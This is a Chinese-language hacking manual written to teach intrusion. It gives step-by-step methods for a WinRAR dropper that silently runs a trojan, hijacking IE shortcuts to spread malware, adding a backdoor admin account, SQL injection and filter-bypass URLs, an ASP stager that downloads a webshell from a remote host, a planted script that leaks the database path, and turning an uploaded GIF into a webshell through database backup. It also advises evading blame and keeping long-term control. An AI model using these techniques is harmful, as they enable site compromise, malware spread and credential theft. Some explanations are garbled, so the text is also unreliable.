不同的脚本程序，有自身的规律，在入侵中我们可以用一些经验达到更好的效率：`PHP`后缀通常是`MySQL`数据库支持，`ASP`后缀背后是`Access`或`MSSQL`，`ASPX`后缀通常是`MSSQL`数据库。一般而言，`MSSQL`的入侵难度小于`MySQL`。除了数据库的不同，它们支持的 `Web` 也不同。学习过《Windows2003 服务器配置》的朋友应该知道，`ASP`和`ASPX`是用`IIS`解析；`PHP`脚本通常需要用`Apache`来解析。但是请注意，`IIS`一样能支持`PHP`，以上的描述都是一般情况，并没有代表特例，甚至`asp`脚本使用`MySQL`，`php`脚本使用`MSSQL`也是可以的，这里特别强调，并没有必然的联系。从网站文件的后缀出网站可能采用的 `Web` 应用程序和数据库类型，对于快速进行漏洞检测是很有的前置知识。

## 第二章 常见问题答疑解惑

有个别地方的电信运营商仍主推一般的 `ADSL MODEM`，这样就没有路由功能，实际上就是不鼓励用户“一线多机”。但是，现在的 `ADSL` 接入设备生产商竞争实在激烈，所以 `ADSL MODEM` 已基本停产，`ADSL ROUTER` 大行其道，这就是现在所称的大多数 `ADSL MODEM` 都“带路由”的原因，也就是 `ADSL` 接入设备基本是 `ADSL ROUTER`。

由于组网方案的不同，`ADSL ROUTER` 就有了桥接模式和路由模式的工作模式，现在的“猫”还有这两个选项，如图 106、图 107 所示。


若是有少量客户机的家庭用户或 `SOHO` 用户，就可以直接用 `PPPOE ROUTED` 路由模式，由 `ADSL ROUTER` 来进行 `PPPoE` 拨号并进行路由。也可以用 `RFC 1483 BRIDGED`，然后接入 `PC`，在 `PC` 上运行 `PPPOE` 拨号软件进行拨号，或接入宽带路由器，由宽带路由器的内置 `PPPOE` 拨号工具进行拨号。

若是在多用户环境，客户机的数量较多时，如：网吧、企业、社区，往往是 `ADSL ROUTER` 加宽带路由器的组网形式，这时多数会让 `ADSL ROUTER` 工作在桥接模式下，由宽带路由器来进行拨号功能，并承担路由的工作，这是因为 `ADSL ROUTER` 的路由能力较低，在处理大数量客户机的路由请求时会出现性能下降或产生死机故障。所以说，桥接模式和路由模式其实是针对于 `ADSL ROUTER` 来说的。

对于用户来说，当使用桥接上网时，你的 `IP` 地址其实是在路径设备后面，因此直接连接你的 `IP` 是连不上的，困扰着灰鸽子等木马的内网上线问题也由此产生；而路由模式则是能直接访问外网 `IP` 的，可以让灰鸽子上线。

一般而言，通过程序发起拨号上网的都是路由模式，开路由器就能上网或者几台主机共用一个 `ADSL` 上网的，都是桥接模式。如图 108 所示，为拨号程序图标。


很多朋友在学习一段网络安全技术之后，掌握的概念逐渐增多，致使在很多概念上出现混淆。这里纠正一下关于几种常见木马词汇的问题，这几种木马分别是 `WEB` 木马、网页木马、远程控制木马和后门木马。

### WEB 木马

就是常说的`WEBSHELL`，它是脚本形式的，可以用文本编辑器打开进行编辑，如图 109 所示。它一般无法在我们家用计算机上使用，需要在安装有能解析网页程序的`IIS`、`apache`服务器上才能运行。


我们通常说的“中了木马”并不是指的这种马，它是用来操作和管理文件的，能对网站服务器上的文件进行编辑、复制、粘贴等操作，它的运行依赖于`IIS`，如果没有是无法运行的。代表作有海洋 `WEB` 木马、老兵 `WEB` 木马等。

### 网页木马

它能操作被中马的计算机去下载并执行后面提到的远程控制木马或者盗取账号木马。它在受害计算机上只会运行一次，这一次的作用就是下载并执行木马，此后就不再起作用了。

> 网页木马的后缀可能是任何后缀。


如图 110 所示的这款网页木马，把你要传播的木马，如盗窃游戏账号类或远程控制类的木马`EXE`程序选中，就能生成网马，网马能把`EXE`木马在受害主机上下载并运行。

网页木马生效一般利用的是 `Windows` 的系统漏洞，它的运行依赖于 `IE` 浏览器和被黑的网站。也就是说，如果一个网站被上了网页木马，只要浏览该网站即会有受害机器执行，然后利用系统漏洞执行。代表作有`MS06-014`。

### 远程控制木马

顾名义，它的作用就是控制操作，这是大家接触最多的木马了。常听“远程控制木马”指的是这一类，它的运行依赖于上面提到的木马，二是利用漏洞手段进行传播。这种木马后缀是`EXE`，属于个人计算机，而且也不方便日常操作。代表作有灰鸽子、基本都是`EXE`可执行文件。


### 后门木马

又名 `Root`，也是一种远程控制木马，但与上面专门控制木马相比，它很强的隐藏能力，通常不是直接由受害主机运行，而得到了权限后，与系统内核结合较为紧密，通常为老手。代表作有黑客之门、后缀可能是`DLL`文件。


最后一段话来归结这几种木马的作用：

- `WEB` 木马：入侵网站

- 网页木马：挂网站

- 远程控制木马：挂网站

- 后门木马：长期保存


先解释一下什么是 `ARP`。`ARP` 是 `Address Resolution Protocol`（地址解析协议），它位于 `TCP/IP` 栈中的低层协议，负责将 `IP` 转化成网卡的物理地址的一种协议。它靠维持在内存中保存一张表来使 `IP` 之在网络上找到目标机器。计算机里保存 `MAC` 地址与 `IP` 地址对应记录的称为 `ARP` 路由，它保存的是 `IP` 和 `MAC` 的对应关系，在 `CMD` 中输入`ipconfig /all`返回：

```
IP address 本机的 IP 地址
DNS Servers DNS 服务器地址
Physical address 本机的 MAC 地址

Ethernet adapter Local Connection:
        Connection-specific Suffix:
        Description: NVIDIA nForce Networking Controller
        Physical Address: 00-11-09-D6-C5-E2
        Dhcp Enabled: No
        IP Address: 192.168.1.2
        Subnet Mask: 255.255.255.0
        Default Gateway: 192.168.1.1
        DNS Servers: 202.103.0.117, 202.103.44.5
```


当计算机 `A` 向 `B` 发数据时，是根据 `IP` 地址发送到 `B` 主机。局域网中对目标主机的寻址是以 `MAC` 地址为准的，于是 `A` 计算机先从 `ARP` 表中保存着的 `IP` 与 `MAC` 记录中查找是否存在该记录，如果有的话就按该 `MAC` 地址发数据，此时 `C` 计算机欲对 `A` 和 `B` 之间的数据进行嗅探。`C` 主机先向 `A` 发一条 `ARP` 更新记录，把主机 `A` 中对应的 `MAC` 地址更新为自己的 `MAC` 地址，同时向主机 `B` 发一条 `ARP` 更新请求，将 `B` 主机中 `A` 主机对应的 `IP` 地址更新为自己的 `MAC` 地址。

如此一来，`A` 和 `B` 之间的通信全都发送到了 `C` 主机，`C` 就当起了 `A` 和 `B` 之间的信息转发人——“中间人”，`A` 和 `B` 之间的数据都会被 `C` 嗅到了。从影响网络连接通畅的方式来看，`ARP` 欺骗分为两种，一种是对路由器 `ARP` 表的欺骗；另一种是对内网 `PC` 的网关欺骗，具体流程图如 114 所示。


第一种 `ARP` 欺骗的原理是截获网关数据。它通知路由器一系列错误的内网 `MAC` 地址，并按照一定的频率不断进行，使真实的地址信息无法通过更新保存在路由器中，结果路由器的所有数据只能发送给错误的 `MAC` 地址，造成 `PC` 无法收到信息。第二种 `ARP` 欺骗的原理是伪造网关。它是建立假网关，让 `PC` 向假网关发数据，而不是通过路由器上网。`ARP` 欺骗的危害巨大，能在内网中引起网络堵塞。

你知道端口和密码是怎样被盗的吗？介绍几个端口的情况：

| 端口 | 服务 | 说明 |

| :--- | :--- | :--- |

| 21 | FTP | 用于上传、下载，打开匿名目录 |

| 22 | SSH | 远程登录 |

| 23 | Telnet | 远程登录 |

| 25 | SMTP | 用于发送邮件 |

| 80 | HTTP | 用于网页浏览 |

| 110 | RPC | 常见服务 |

| 135 | DCE RPC | Microsoft 服务 |

| 137 | NETBIOS | UDP 端口，网络邻居 |

| 138 | NETBIOS | UDP 端口，传输文件 |

| 139 | NETBIOS | TCP 端口，Windows 文件和打印机共享 |

| 161 | SNMP | 允许远程管理设备，配置和运行信息 |

### 1 键盘记录工具和盗号木马的区别与功能有何不同？

键盘记录工具和盗号木马都属于密码记录类的黑客工具，但是不同之处在于：盗号木马通常针对特定的游戏进行记录，如果没有这个就不会截取密码；而键盘记录工具的灵活性则大一些，可以根据窗体的标题选择性的记录某程序。

窗体标题就是每个窗口左上角的字，比如进入搜狐网，就会在左上角有“搜狐——中国最大的门户网站”几个字，如果你在键盘记录工具中截取带有“搜狐”字样的标题，则工具只会记录标题中有“搜狐”两字的页面产生的产生的击信息，如图 15 所示。


在通用性上，键盘记录工具大一些，但是在专业性上，盗号木马则强得多。比如盗号木马常常具有从内存截取密码的功能，而键盘记录工具常常只有记录敲键的方式。木马记录的是直接的密码，而键盘记录包含了空格、左方向、右方向、`ESC` 等键盘的按键，如果是记录 `QQ` 窗口的话，甚至连聊天的内容都能被记录，如图 16 所示。


简单描述一下键盘记录工具的工作过程：

黑客通过网络木马或邮件等方法在目标主机上执行了键盘记录工具，这个键盘工具是事先配置好的，设定了记录哪个窗体的击键信息。比如黑客想了解目标主机在搜狐邮件的密码，就会记录窗口中关于搜狐的信息。记录之后，每隔一段时间会把击键的信息以邮件的形式发往黑客的邮箱，黑客从击键信息中分析整理出相关的信息。键盘记录工具的使用在《黑客工具实战技巧》一章中将有非常详细的介绍，这一节主要为了。

当前IP地址（`IP Address`）、DNS服务器地址（`DNS Servers`）等信息，如图120所示。

```
C:\Documents and Settings\Administrator>ipconfig -all

Windows IP Configuration

        Host Name . . . . . . . . . . . . : fly-d02d27d466a
        Primary Dns Suffix  . . . . . . . . :
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . . : No

Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . :
        Description . . . . . . . . . . . : NVIDIA nForce Networking Controller
        Physical Address. . . . . . . . . . . . : 00-11-09-D6-C5-E2
        Dhcp Enabled. . . . . . . . . . . : No
        IP Address. . . . . . . . . . . . : 192.168.1.2
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . . . : 192.168.1.1
        DNS Servers . . . . . . . . . . . : 202.103.0.117
                                            202.103.44.5
```

图120

在进行嗅探、`Arp`欺骗等攻击时，这些是必不可少的信息。黑客常用的建立账号，并把这一账号添入管理员的命令，也可以在`CMD`下进行。

建立账号的命令形式：`net user 用户名 密码 /add`，如图121所示。

```
C:\>net user hack911 12345678 /add
命令成功完成。

C:\>
```

图121

这样就建立了一个名为`hack911`，密码为`12345678`的账号。加入本地管理员组可以用`net localgroup administrators 建立的用户名 /add`的命令形式，如图122所示，这样就将刚才建立的账号`hack911`加入了管理员组。

```
C:\>net localgroup administrators hack911 /add
命令成功完成。

C:\>
```

图122

入侵个人电脑最常采用的`IPC`方法也是在`CMD`下发起的，命令形式为`net use \\IP\ipc$ "用户名" /user:"密码"`。关于`IPC`命令的使用有专门章节描述，这里就不再多说了。作为一个刚接触网络安全技术的初学者，最常用到的`CMD`命令就这几条，虽然并不是很难，但用得实在是太频繁了，请务必记牢！


# 第三章 黑客入侵常用技巧

如何操作一台主机？

我通过默认密码进入了一个网站的后台，下面我能做什么呢？什么是抓包上传？

- 如何在三层中跳转目录？

- 命令行下如何设置计算机网络？

- 如何使用命令行添加服务？

### 一个经典的COOKIE欺骗进入后台的例子：

- 怎么使用一句话木马？

- 有没有办法能用插件等工具注入的节点？

- 如何盗取COOKIE呢？

- 怎么能时刻获得网站的数据库实际地址？

- 如果网站安装有信息检测系统该怎么突破？

- 我得到了网站的FTP数据库地址，在主站上也得到了一个节点，怎么利用？

- 能否利用MSSQL相关工具帮助入侵？

- 如何设置SA？怎么利用Oday数据库来隐藏Oday木马？

- 如何利用Oday提升权限？

- 如何利用webshell提升权限？

- 如何进行反向连接？

- 如何后台备份数据库得到一个shell权限？

- 所谓的提权是怎么回事？

- 如何破解邮箱？

- 怎样打开3389远程终端？

- 什么是图片木马？

- 什么是本地提交？


- 如何作为社会工程学黑客？

- 如何进行节点注入？

- 如何制作“万能捆绑”？

- 怎么通过社会工程学手段破解信息？

- 怎么用程序入侵？

- 怎么进行欺骗？

- 怎么利用快捷方式插入木马？

### 如何制作“万能捆绑”

所谓万能捆绑，其实原理很简单，就是利用WinRAR的解压功能，将不同后缀的文件包在一起，在解压时挂载脚本执行，这样就达到了执行的目的。用WinRAR把两个文件进行捆绑，除了捆不同类型的文件之外，还有一个重要作用就是防止捆绑机被杀带来的捆绑文件失效问题。捆绑机本身也是杀毒软件的对象，不容易得到免杀木马，在用捆绑后，又感染了捆绑机的代码，导致再次被杀。利用WinRAR捆绑就不会存在“二次感染”的问题。

一个“万能捆绑程序”由捆绑文件、木马文件、脚本几部分组成，整个流程是：WinRAR将被捆绑文件和木马文件打包，在设置中设定释放前或文件后执行脚本，脚本的内容就是执行木马命令、语句或代码。

下面来学习一下具体操作：

第一步：选定要创建解压文件的文件，比如`hack.gif`。单击右键，在弹出的菜单上选择“添加到压缩文件”，如图1所示。


打开“压缩文件名和参数”对话框，然后在“常规”选项卡上选择“创建解压格式的压缩文件”复选框，点击“确定”，如图2所示。


稍等片刻，目录中一个解压文件就建立好了，后缀是EXE，如图3所示。

第二步：在建好的解压文件包上点鼠标右键，选择“用winrar打开”，点击按钮条最右边的“解压格式”按钮。这里注意一下：因为软件窗口大小的原因，有时候这个选项不容易看到，这时你只需要按软件窗口最右边带“右三角”>>的竖条按钮就能扩展菜单条，如图4所示。


在弹出的菜单中选择“解压格式”标签项，再单击下边的“高级解压选项”，如图5所示。

第三步：在“高级解压选项”对话框里设置解压文件的各种选项。在“常规”选项中设置解压路径，一般设为`%systemroot%\system32\`，还有解压后运行`2.vbs`，解压前运行`hack.gif`，如图6所示。“模式”选项中设置解压文件模式，选“全部隐藏”和“覆盖所有文件”；“文本和图标”选项里在“从文件加载解压文件图标”中指定一个ICO后缀的图标作为生成解压文件的图标，如图7所示。


可以选择一些欺骗性的，比如电影图标。设置好后，单击“确定”关闭“高级解压选项”，再次单击“确定”关闭“文件名和参数”。

第四步：建立一个批处理文件名为`2.vbs`，内容如下：

```vbs
dim shell
set shell=CreateObject("Wscript.Shell")
shell.run "cmd /c start %SystemRoot%\system32\cmd.exe",0
```

把执行的木马程序命名为`cmd.exe`，连同`2.vbs`加入捆绑包文件，如图8所示。


### 隐藏后台

当对方双击这个解压文件时，首先运行正常的程序，比如打开一个图片或运行一个小游戏，接着就会捆绑包中的`cmd.exe`释放到系统目录下，并由`2.vbs`执行。这种方法不依赖任何插件，可以达到更好的效果，可以说是木马传播的手段之一！


现在很多网站为了保护网站的安全，想尽办法采取安全措施，比如数据库改名、后台改名、表前缀修改等。这样造成的结果是我们在注入时，想找数据库找不到；通过注入知道了管理员账号密码却找不到后台；或者找到了后台账号密码却猜不出表名……先来看看管理员是怎么使用常见手法制造障碍的，然后提供几条突破思路。

一般来说，网站安全的第一步就是“隐藏后台”，也就是让更多人不知道后台的地址。有些管理员为了方便用户识别出后台，会采用随机字符为前缀加下划线的命名方式建立后台目录，如`abcd_admin`的形式；另一种隐藏习惯是把`admin`放到下级目录，如`w39vm0/admin`的形式，`w39vm0`这个目录只有少数人知道。另外，用前缀命名也是管理员的习惯，一般会取与自己或公司有关的名称。

比如入侵某网站时，得到了账号密码但是找不到后台。接着在网站上发现一点信息，此网站是由yshine的网络公司制作的，那么会不会与前缀类似的词呢？我们来进行破解……直接在IE输入网站地址，并在后面接上`admin`目录，找不到该目录，如图9所示。


我们试试用网站的主页关键词来猜后台，看看后台是否为`yshine_admin`。输入后提示不存在页面，再试试`yshine/admin`目录，成功进入，如图11所示。


在注入中还发现该网站的管理员表字段也作了这样的修改，如图12所示。


破解被修改的后台、表名、字段名等，需要的是灵感加经验。灵感只能靠读者自己，这里经验我总结如下：

- 网站的名字字母缩写、管理员的名字缩写、网站邮箱的字母缩写，都有可能被作为密码，或是作为伪装的关键词，我们可以直接破解或是再加一些常见字用作前缀或后缀来进行破解。比如前面那个例子中，网站后台可能进一步改为`yshine/admin/yshinelogin.asp`。

大家在以后的入侵中也要注意寻找和总结这些经验和规律，我认为在社会工程学是一项很有用的入侵思路，而并不是入侵手段，其中带有很大的偶然性和运气成分，我们需要掌握这种思路，但也不可过分迷信。

所谓的Editor就是在线编辑器，很多网站的后台发布系统或者会员留言功能等都整合了这一系统，凡是出现如图13所示的编辑对话框，说明都安装有editor。


我们利用WebEditor进行说明，该系统存在一个默认漏洞，方法如下：访问WebEditor的登录页面，其默认地址为`admin_login.asp`，和`webeditor.asp`同一目录下。在IE中输入正确的地址，如`http://www.xxx.com/webeditor/admin_login.asp`，看着是否出现了登录页面，登录成功如图14所示。用户名：admin，密码：admin。


登录成功后找到上传类型，点击“样式”，随便选择列表底部的某一个样式（不要选择上面的），然后在上传的文件类型中增加asa类型，如图15所示。

### URL欺骗

URL欺骗常用来引诱访问者点击，从而传播木马或窃取COOKIE信息，利用与其他黑客手段组合会得到很好的效果。我们通过这种方式实现的目的就是让对方在点击看似正常的链接时，却到了恶意网页。请看以下代码：

```html
<p><a href="http://www.sohu.com/">搜狐</a></p>
<div>
  <a href="http://www.163.com" target="_blank">
    <table>
      <caption>
        <label for="SPOOF">
          <u style="cursor: pointer; color: blue">www.163.com</u>
        </label>
      </caption>
    </table>
  </a>
</div>
```

该代码运行后的结果如图17所示，注意代码中`www163.com`的位置是正常网页上显示的地址，而`sohu.com`是点击后跳转的地址，并不在页面中显示。

### 快捷方式破解

本地打开后`www163.com`显示为超链接，按照大家上网的习惯，点击这个超链接后应该进入`163.com`，但事实是怎么样的呢？点击之后出现的结果却是`sohu.com`，如图18所示。


这种利用方法十分简单，只需将此代码放在自己制作的HTML代码中，比如你可以发送一封邮件到目标的邮箱，伪装成QQ官网发来的某些信息，其中显示的URL是QQ的官网地址，但链接的地址却是自己指定的。这样对方在毫无戒备的情况下点击后就达到欺骗效果。URL欺骗的成功不在于利用技巧，而在于利用思路。


本节的技巧常用来传播木马，该方法比较隐蔽、新颖，思路是借用常见的桌面上的IE快捷方式，如图19所示。对其进行修改，使得在正常打开IE时偷偷链接到你的主页网页。这样传播木马有个很大的好处，可以使自己的受嫌疑降低。


在本章前面所介绍的“万能捆绑”传播，或者URL欺骗传播，都遇到一个问题，那就是我们必须要将传播的文件发送给目标，如果被有经验的人发现异常状况，自己会脱不了干系。而使用快捷方式传播木马，仅仅是把木马传播的途径埋藏在电脑中，等目标自行触发。这样即便目标发现自己中了木马，也不会怀疑到传播者。

下的，然后点右键选择“属性”，如图20所示。


将原来“快捷方式”标签目标栏中的`"C:\Program Files\Internet Explorer\iexplore.exe"`改为`"C:\Program Files\Internet Explorer\iexplore.exe" http://www.sohu.com/"`即可。

如果`administrators`目录下没有`application data`目录，点击资源管理器中的“工具”-“文件夹选项”-“查看”，按照如图21所示，把“隐藏受保护的操作系统文件”前的勾去掉，将“显示所有的文件和文件夹”选中就能看到了。


这里用作演示的是`www.sohu.com`，实际应用中可以把这个网址替换成别的。现在我们回到桌面，双击IE快捷方式就会打开搜狐网。

在实际应用中，这个修改`C:\Documents and Settings\administrator\Application Data\Microsoft\Internet Explorer\`的过程完全不用我们手动操作，只需要把一个修改好的图标通过捆绑脚本的方式覆盖这个文件就可以了。

> 我得到了网站的BBS数据库地址，在主站上也得到了一个注点，怎么利用？

在入侵中我们常常会遇到这种情况：目标是一个综合类的网站，提供有电影、flash、文章、同学录等，用的是最新的动网论坛8.0。通过动网8.0 COOKIE漏洞泄露绝对路径`d:\www\xxx\bbs\data`为默认数据库目录，连接`www.xxx.com\bbs\data\dvbbs8.mdb`，下载数据库却发现作了防下载处理。管理员好像很懂安全，很有信心的样子，默认数据库名称也不改，但是就是让你下载不了。

试着在管理员的 flash 页面找到一个注入点，是 access 数据库，但是该注入点跑不出东西。管理员的账号和密码，继续检测后也没有发现更大的漏洞。现在的情况是，在主页和 BBS 各发现了漏洞的一半，主页发现注入点，可是猜不到数据库的情况；BBS 上发现了数据库是动态的，数据库的情况是明确的，可惜无法下载得到管理员账号。

难道我们的入侵只能在这半吊子漏洞下放弃吗？当然不是！其实我们可以把这两个漏洞结合起来完成入侵。

我们在 access 注入中讲的都是对出现在注入点的 asp 文件所调用的数据库进行注入，也就是说在“自己的数据库”，其实 access 是可以去注入猜解其它程序的数据库的，这种技术叫做“跨站”。前提条件是得知了网站绝对路径和数据库名，这样就等于把两个半吊子漏洞结合成了一个可以完整利用的漏洞，注入语句如下：

```sql
http://www.xxx.com/lst.asp?id=1344 and (select count(*) from admin in 'd:\www\xxx\bbs\data\dvbbs8.mdb')
```

使用的语句很简单，都是正常的 access 注入语句，只是其中加上了绝对路径的参数。普通的 access 注入语句按这个模式套进去，联合查询也能进行跨库，语句如下：

```sql
http://www.xxx.com/lst.asp?id=1344 and 1=2 union select 1,content,3,4 from dv_log in 'd:\www\xxx\bbs\data\dvbbs8.mdb' where 1=5-13
```

其它的注入语句就与普通的 access 注入没有啥了。经过跨库得到动态 BBS 的密码，如破解成功即可进后台拿 WEBSHELL。以此方法为我们在入侵后台时打开了思路，需要多多研究。


现在的管理员为了网站安全，花的代价越来越高，各种客户端对提交信息进行过滤，“一流信息监控检测系统”就是其中的一种。这一节以此为例讲讲怎么绕过这二类检测系统。

在安装有这个系统的服务器上进行注入或是上传木马，都会出现如图22所示的提示信息，你的注入关键字和 WEB 木马中包含的关键字都会被这个系统过滤。上传不了 WEBSHELL，注入不了，如何突破？我们分两头说，一是突破上传，二是突破注入。


突破上传的主要思路是，既然上传的 WEBSHELL 中有被过滤的关键字，那么我可以上传一个没有被过滤关键字，且正常的 ASP 文件。而这个文件的作用是自己从远程下载 ASP 马，这样就绕开了“一流信息监测系统”对外部 POST 数据库的检测。

# 第三章 黑客入侵常用技巧

我们只要把以下代码作为 ASP 马上传，然后从远程下载我们真正的 WEBSHELL 就可以了。

```asp
<%
Set xPost = CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET", "http://www.xxx.com/hn.txt", False
xPost.Send()
Set sGet = CreateObject("ADODB.Stream")
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile Server.MapPath("nohack.asp"),
set sGet = nothing
set xPost = nothing
%>
```

代码中的 `http://www.xxx.com/hn.txt` 是与网页同目录保存的文件，注意不要改成 asp 后缀，因为我们要下载的是源码，访问后得到执行后的结果。下载到本地保存为 `nohack.asp`，这样就突破了“一流信息系统”。

来看看注入过滤，一般是拦截独立的关键词，也就是字符串“and”，而不会拦截包含“and”的字符串。用空格一样效果的 TAB 键代替 and 前后的空格，注意要把 TAB 键转换成 URL 格式（TAB 键是 `%09`），提交的注入语句为 `http://www.xxx.com/list.asp?id=1344%09and%09=2`，如图23所示。


接下来的注入就和普通的注入一样，注意把凡是有空格的地方以 `%09` 代替即可。()

我们在成功入侵一个网站后，自然想长期控制，但是现在的安全检测越来越强，WEBSHELL 和一句话木马很快被发现，从而失去作用。下载密码和管理权限也不是长久之计，也许服务器可能被加强，后台地址可能被改变。对于网络上众多的 ACCESS 网站而言，如果想要长期控制，只要把数据库控制在手中，这个站就跑不出，提供了一个思路。数据库地址一般保存在 `conn.asp` 文件中，如果我们能随时看到 `conn.asp` 的内容，也就得知数据库文件的地址。实现只需要把一个下载 `conn.asp` 的程序放在 WEB 目录下，从 URL 里访问该文件就会把 `conn.asp` 下载到本地。相关程序如下：

```asp
<%
Dim down_file
down_file = "D:\www\conn.asp"
Response.ContentType = "Application/octet-stream"
Response.AddHeader "Content-Disposition", "attachment; filename=" & down_file
%>
```


```asp
Dim stream
Set stream = Server.CreateObject("ADODB.Stream")
stream.Open
stream.Type = 1
stream.LoadFromFile down_file
stream.Position = 0
Response.BinaryWrite stream.Read(-1)
stream.Close
Set stream = Nothing
Response.End
%>
```

只需把代码中`D:\www\conn.asp`处改为控制的网站`conn.asp`文件的绝对地址即可。如图24所示，我已经在某网站中安装了下载`conn.asp`的程序，命名为`const1.asp`。现在我们访问这个程序实现了`conn.asp`文件的下载。

| 文件名 | 操作 | 大小 |
| :--- | :--- | :--- |
| admin.asp | 下载 | 6K |
| config.com说明.txt | 下载 | 1K |
| conn.shtml | 下载 | 0K |
| const1.asp | 下载 | 2K |
| index.asp | 下载 | 25K |
| js.asp | 下载 | 4K |
| myszw.asp | 下载 | 0K |
| tstyle.css | 下载 | 2K |

图24

## 有没有办法能用 SQL 等工具跑 Cookie 注入？

答案是可以的！普通的 Cookie 注是通过工具或者 NC 修改的数据，在其中添加注入语句，然后提交。接着还要返回一次正常页面，通过看这个页面是否正常来判断是否执行（Cookie 注入是提交语句后马上返回正常或不正常页面），这样原本就复杂的破解动作增加了一倍，对于一些复杂结构的网站数据库的破解，实在是费时费力！

很多朋友遇到 Cookie 注入就害怕，而且 Cookie 注入用 SQL 等工具是不可能的，因为 SQL 只能检测 POST 和 GET 的提交数据，如图25所示。


直观来说，就是只能检测那种在 URL 上出现的注入漏洞。而让 SQL 检测 Cookie 注入的原理就是把作为 Cookie 提交的那部分注入语句，先提交到一个起中转站作用的`asp`程序中，由这个中转站将其转换为 POST 提交的数据。理论上可行，但是对于现在阶段的朋友们自己写程序，还是有难度的。好在有前辈人写出了现成的工具——“注入中转站”。

打开工具后先选中“Cookie 注入”，要填的地方有三个。首先是注入 URL 地址，比如你发现的 Cookie 注入点是`http://www.xxx.com/list.asp?id=1344`，这里就填`http://www.xxx.com/list.asp`，注意去掉后面的参数。下面的来源页也把这个地址复制进去。

## 如何操作 Linux 主机？

通过其它章节学习的知识我们了解到，PHP 脚本的网站在 Internet 上占有相当大的比重。PHP 往往配合 MySQL 数据库和 Apache，这两种程序通常是安装在 Linux 下的。作为进行网络测试活动的我们来说，有很大的概率需要和 Linux 主机打交道，Linux 是必须学会操作的系统。如果你只会操作 Windows 系统，就等于只用一只翅膀在飞翔。

与网络安全相关的 Linux 操作主要有两部分：一部分是常规操作，比如删除文件等；另一部分是网络命令，就好像 Windows 下的`ping`、`netstat`等。请看表 1，是 MS-DOS 和 Linux 这两种操作系统的常用命令列表。

Linux 的网络命令与 Windows 下并没有太多区别，这里简单介绍几种。

### telnet

功能说明：远程登录。

表1 MS-DOS 和 Linux 常用命令列表

| 命令 | MS-DOS | Linux |
| :--- | :--- | :--- |
| dir | ls | ls |
| cd | cd | cd |
| del | rm | rm |
| md | mkdir | mkdir |
| type | cat | cat |
| copy | cp | cp |
| move | mv | mv |
| cls | clear | clear |
| help | help | help |
| ping | ping | ping |
| shutdown | halt | halt |

### ping

包入小汇：存活数值>1，主机名称或 IP 地址。

补充说明：执行`ping`指令会使用 ICMP 协议来实现，而通常要求回复的信号，若远端主机的网络功能没有问题，就会回应信息，因此得知该主机运行正常。

#### 参数

- `-s`：使用 Socket 的`SO_DEBUG`功能。
- `-c <完成次数>`：设置完成要求回应的次数。
- `-i <间隔秒数>`：指定收发信息的间隔时间。
- `-I <网络界面>`：使用指定的网络界面送出数据包。
- `-l <前置载入>`：设置在送出要求信息之前，先行发出的数据包。
- `-n`：只输出数值。
- `-p <范本样式>`：设置填满数据包的范本样式。
- `-q`：不显示指令执行过程，开头和结尾的相关信息除外。
- `-R`：忽略普通的`Routing Table`，直接将数据包送到远端主机上。
- `-r`：记录路由器进程。
- `-s <数据包大小>`：设置数据包的大小。
- `-t <存活数值>`：设置存活数值 TTL 的大小。
- `-v`：详细显示指令的执行过程。

`ping`是一个最常用的检测是否能够与远端机器建立网络通讯连接的命令，它是通过 Internet 控制报文协议 ICMP 来实现的。而现在有些主机对 ICMP 进行过滤，在这种特殊的情况下，有可能使得一些主机 ping 不通，但能够建立网络连接。入侵中常用会试执行`ping`命令来测试能否进行连接。

### netstat

功能说明：显示网络状态

语法：`netstat [-acCeFghMnNoprstuvVwx] [-A<网络类型>] [-ip]`

补充说明：利用`netstat`指令可让你得知整个 Linux 系统的网络情况。

#### 参数

- `-a` 或`--all`：显示所有连线中的 Socket。
- `-A <网络类型>` 或`--<网络类型>`：列出该网络类型连线中的相关地址。
- `-c` 或`--continuous`：持续列出网络状态。
- `-C` 或`--cache`：显示网络装置的缓存信息。
- `-e` 或`--extend`：显示网络其他相关信息。
- `-F` 或`--fib`：显示 FIB。
- `-g` 或`--groups`：显示多重广播功能群组组员名单。
- `-h` 或`--help`：在线帮助。
- `-i` 或`--interfaces`：显示网络界面信息表。
- `-l` 或`--listening`：显示监控中的服务器的 Socket。
- `-M` 或`--masquerade`：显示伪装的网络连线。
- `-n` 或`--numeric`：直接使用 IP 地址，而不通过域名服务器。
- `-N` 或`--netlink` 或`--symbolic`：显示网络硬件外围设备的符号连接名称。
- `-o` 或`--timers`：显示计时器。
- `-p` 或`--programs`：显示正在使用 Socket 的程序识别码和程序名称。
- `-r` 或`--route`：显示`Routing Table`。
- `-s` 或`--statistics`：显示网络工作信息统计表。
- `-t` 或`--tcp`：显示 TCP 传输协议的连线状况。
- `-u` 或`--udp`：显示 UDP 传输协议的连线状况。
- `-v` 或`--verbose`：显示指令执行过程。
- `-V` 或`--version`：显示版本信息。
- `-W` 或`--raw`：显示 RAW 传输协议的连线状况。
- `-x` 或`--unix`：此参数的效果和指定`"-A unix"`参数相同。
- `-p` 或`--inet`：此参数的效果和指定`"-A inet"`参数相同。

## 第三章 黑客入侵常用技巧

保存地址和文件名为 `UPFILE/200707220014.GIF`。因为是 GIF 后缀，所以是不能运行的。不要急，我们有办法将它变成 ASP 后缀。

然后进入网站后台的数据库操作页面，选中备份数据库，在源数据库地址一栏中输入刚才上传的 GIF 后缀的 WEB 木马的地址`UPFILE/200707220014.GIF`。

在备份数据库地址一栏中填入一个网站中存在的目录的地址（有些部分后台可以随意指定目录，如果不存在会自动创建），如`DATABACKUP/MM.ASP`。点击确定后，我们上传的 GIF 文件的 WEB 木马`UPFILE/200707220014.GIF`就会伪装成了`DATABACKUP/MM.ASP`，如图 30 所示。


在 IE 中连接`http://www.xxx.com/databackup/mm.asp`就得到了我们的 WEBSHELL。这种备份数据库的利用很经典，大家要记牢！

### 替换文件取得 WEBSHELL

有部分网站中某个 ASP 文件的内容是可以自行定义的，因为过滤不严，导致可以直接改变内容成为一个 WEBSHELL。例如动态网 6.0 中的“注册欢迎”信息是可以在后台自定义的。将一个 WEB 木马的代码复制进这个文件，再连接欢迎文件，即可成为 WEBSHELL。

